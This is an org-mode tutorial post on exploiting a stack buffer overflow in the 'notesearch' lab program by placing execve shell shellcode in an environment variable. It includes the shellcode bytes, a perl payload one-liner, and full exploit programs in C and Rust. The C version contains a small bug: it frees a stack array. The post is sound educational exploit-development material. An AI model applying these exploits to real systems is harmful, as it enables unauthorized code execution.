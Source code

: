 #+title: Store shellcode in environment variable
#+description: todo
#+publishdate: 2023-10-29
#+options: ^:nil


In the [[https://danielorihuela.github.io/posts/stack-based-buffer-overflows/][previous post]] we explained how stack-based buffer overflows work. In the last exercise, we inserted the shellcode in the stack. However, this might be a problem. What happens if the shellcode doesn't fit in the stack? We can store it in an environment variable.

* Manually store shellcode in env var

We will export the shellcode manually and use it in our exploit.

Let's keep working with the ~notesearch~ program (the last exercise of the previous post). Remember that the shellcode was ~\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05~. We need to export it as a binary into the env var. Otherwise, the code won't be executed.

#+begin_src bash
echo -e "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05" > shellcode.bin
export SHELLCODE=$(cat shellcode.bin)
#+end_src

The terminal will complain about the encoding but don't worry. It's still working.

[[../../images/stack-based-buffer-overflow-env-var/wrong-encoding.png]]

The next step is debugging the exploit and searching the address where the environment variable is in the stack. Environment variables are in the lowest positions.

#+begin_src bash
env gdb ~/Desktop/overflow/notesearch
#+end_src

We can place a break in the main function to inspect the stack frame.

[[../../images/stack-based-buffer-overflow-env-var/shellcode-location-env-var.png]]

The shellcode is at ~0x7fffffffe975~. Notice that if the user adds or removes environment variables, the memory address will change. We can execute ~~/Desktop/overflow/notesearch $(perl -e 'print "\x90" x 120, "\x75\xe9\xff\xff\xff\x7f"')~. Remember, we use the first 120 bytes to reach the return address memory location.

[[../../images/stack-based-buffer-overflow-env-var/manual-exploit.png]]

* Automating the attack

Another advantage of storing the shellcode in an environment variable is that automating the attack is easier. C [[https://linux.die.net/man/3/execl][execle]] function allows to execute files with the given arguments and environment variables.

~int execle(const char *path, const char *arg,..., char * const envp[]);~

We can execute the binary with just the shellcode in the environment variables. Hence, we get rid of other environment variables that could modify the memory address. We can use gdb, as before, to get the new memory address. There's one difference, though. Since we want to debug the program called with ~execle~, we need to allow gdb to debug it. Execute ~set follow-fork-mode child~ in gdb and add a break to the main function. It will eventually stop in ~notesearch~. Once there, search the shellcode in the stack frame as we did before.

[[../../images/stack-based-buffer-overflow-env-var/follow-child.png]]

The exploit in C is quite self-explanatory. We create the argument, the environment and execute ~notesearch~ with them.

#+begin_src c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stdint.h>

char shellcode[]="\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05";

int main(int argc, char *argv[]) {
    char buffer[120 + 8];
    memset(buffer, 'a', 120);
    memcpy(&buffer[120], "\x75\xe9\xff\xff\xff\x7f", 8);

    char* env[2] = {shellcode, 0};
    execle("notesearch", "./notesearch", buffer, 0, env);
    free(buffer);
}
#+end_src

[[../../images/stack-based-buffer-overflow-env-var/c-exploit.png]]

The same exploit in Rust.

#+begin_src rust
use std::ffi::OsStr;
use std::process::Command;

fn main() {
    let shellcode = unsafe {
        OsStr::from_encoded_bytes_unchecked(&[
            0x48, 0x31, 0xf6, 0x56, 0x48, 0xbf, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68,
            0x57, 0x54, 0x5f, 0x6a, 0x3b, 0x58, 0x99, 0x0f, 0x05,
        ])
    };

    let shellcode_address = [0xd3, 0xef, 0xff, 0xff, 0xff, 0x7f];
    let memory = [0x61; 120]
        .iter()
        .chain(shellcode_address.iter())
        .map(|x| *x as u8)
        .collect::<Vec<u8>>();
    let memory_arg = unsafe { OsStr::from_encoded_bytes_unchecked(&memory) };

    Command::new("./notesearch")
        .arg(memory_arg)
        .env_clear()
        .env("SHELLCODE", shellcode)
        .spawn()
        .unwrap()
        .wait_with_output()
        .unwrap();
}
#+end_src

[[../../images/stack-based-buffer-overflow-env-var/rust-exploit.png]]
